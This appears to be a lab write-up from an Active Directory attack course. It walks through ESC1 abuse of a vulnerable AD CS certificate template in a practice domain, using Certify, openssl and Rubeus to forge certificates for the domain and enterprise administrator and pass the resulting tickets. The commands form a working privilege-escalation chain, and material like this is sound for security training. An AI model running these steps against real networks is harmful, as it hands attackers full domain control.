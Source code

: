 # 🪜 Find vulnerable templates w/ AD CS  to escalate to DA and EA

We can start by using the Certify tool to check for AD CS in moneycorp ->

```
C:\AD\Tools\Certify.exe cas
```

<figure><img src="../../.gitbook/assets/image (1161).png" alt=""><figcaption></figcaption></figure>

We can list all the templates using the following command. Going through the output we can find some interesting templates:

```
C:\AD\Tools\Certify.exe find
```

<figure><img src="../../.gitbook/assets/image (1162).png" alt=""><figcaption></figcaption></figure>

```
[snip]
CA Name : mcorp-dc.moneycorp.local\moneycorpMCORP-DC-CA
 Template Name : SmartCardEnrollment-Agent    
 Schema Version : 2
 Validity Period : 10 years
 Renewal Period : 6 weeks
 msPKI-Certificates-Name-Flag : SUBJECT_ALT_REQUIRE_UPN,
SUBJECT_REQUIRE_DIRECTORY_PATH
 mspki-enrollment-flag : AUTO_ENROLLMENT
 Authorized Signatures Required : 0
pkiextendedkeyusage : Certificate Request Agent     
 mspki-certificate-application-policy : Certificate Request Agent
 Permissions
 Enrollment Permissions
 Enrollment Rights : dcorp\Domain Users S-1-5-21-719815819-3726368948-3917688648-513    
[snip]
Template Name : HTTPSCertificates     
 Schema Version : 2
 Validity Period : 1 year
 Renewal Period : 6 weeks 
msPKI-Certificates-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT
[snip]
```

Now that we have the templates that we find interesting, we can try out for Privilege Escalation to DA and EA using ESC1

The template HTTPSCertificates looks interesting. Let's get some more information about it as it allows requestor to supply subject name:

<figure><img src="../../.gitbook/assets/image (1163).png" alt=""><figcaption><p>S-1-5-21-719815819-3726368948-3917688648-1123</p></figcaption></figure>

```
C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject
```

what this means is that the HTTPSCertificates template grants enrollment rights to RDPUsers group and allows requestor to supply Subject Name. Recall that student613 is a member of RDPUsers group. This means that we can request certificate for any user as student613.

Now we can try to request a certificate for Domain Admin - Administrator:

```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now let's Copy all the text between -----BEGIN RSA PRIVATE KEY----- and -----END CERTIFICATE----- and save it to esc1.pem:

```
notepad C:\AD\Tools\esc1.pem
```

<figure><img src="../../.gitbook/assets/image (1165).png" alt=""><figcaption></figcaption></figure>

We need to convert it to PFX to use it. Use openssl binary on the student VM to do that. I will use SecretPass@123 as the export password ->

```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-DA.pfx 
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's start by encoding "asktgt"

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /certificate:esc1-DA.pfx /password:SecretPass@123 /ptt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can check if we actually have DA privileges:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use similar method to escalate to Enterprise Admin privileges. Request a certificate for Enterprise Administrator - Administrator

```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Save the certificate to esc1-EA.pem and convert it to PFX. I will use SecretPass@123 as the export password:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1-EA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-EA.pfx   
```

Encode asktgt and run the follwing command ->

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:moneycorp.local\Administrator /dc:mcorp-dc.moneycorp.local /certificate:esc1-EA.pfx /password:SecretPass@123 /ptt
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And check for EA privileges ->

```
winrs -r:mcorp-dc cmd /c  set username
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Need to go back on this process later on
{% endhint %}

Now let's try Privilege Escalation to DA and EA using ESC3
